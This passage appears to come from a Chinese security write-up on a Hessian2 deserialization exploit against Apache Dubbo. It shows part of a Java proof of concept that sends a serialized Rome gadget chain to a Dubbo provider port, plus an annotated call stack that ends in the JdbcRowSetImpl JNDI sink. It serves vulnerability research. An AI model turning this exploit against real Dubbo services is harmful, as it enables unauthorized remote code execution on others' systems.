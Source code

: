 ```java
        byte[] bytes = byteArrayOutputStream.toByteArray();

        //todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

![image-20250208194612706](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250208194612706.png)

调用栈：

```java
connect:615, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:158, ToStringBean (com.rometools.rome.feed.impl)
toString:129, ToStringBean (com.rometools.rome.feed.impl)
beanHashCode:198, EqualsBean (com.rometools.rome.feed.impl)
hashCode:180, EqualsBean (com.rometools.rome.feed.impl)
hash:338, HashMap (java.util)
put:611, HashMap (java.util)
//以上为rome链
    
doReadMap:145, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readMap:126, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readObject:2703, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2278, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:85, Hessian2ObjectInput (org.apache.dubbo.common.serialize.hessian2)
decodeHeartbeatData:413, ExchangeCodec (org.apache.dubbo.remoting.exchange.codec)
decodeBody:125, DubboCodec (org.apache.dubbo.rpc.protocol.dubbo)
decode:122, ExchangeCodec (org.apache.dubbo.remoting.exchange.codec)
decode:82, ExchangeCodec (org.apache.dubbo.remoting.exchange.codec)
decode:48, DubboCountCodec (org.apache.dubbo.rpc.protocol.dubbo)
//到达sink点
    
decode:90, NettyCodecAdapter$InternalDecoder (org.apache.dubbo.remoting.transport.netty4)
decodeRemovalReentryProtection:502, ByteToMessageDecoder (io.netty.handler.codec)
callDecode:441, ByteToMessageDecoder (io.netty.handler.codec)
channelRead:278, ByteToMessageDecoder (io.netty.handler.codec)
invokeChannelRead:374, AbstractChannelHandlerContext (io.netty.channel)
invokeChannelRead:360, AbstractChannelHandlerContext (io.netty.channel)
```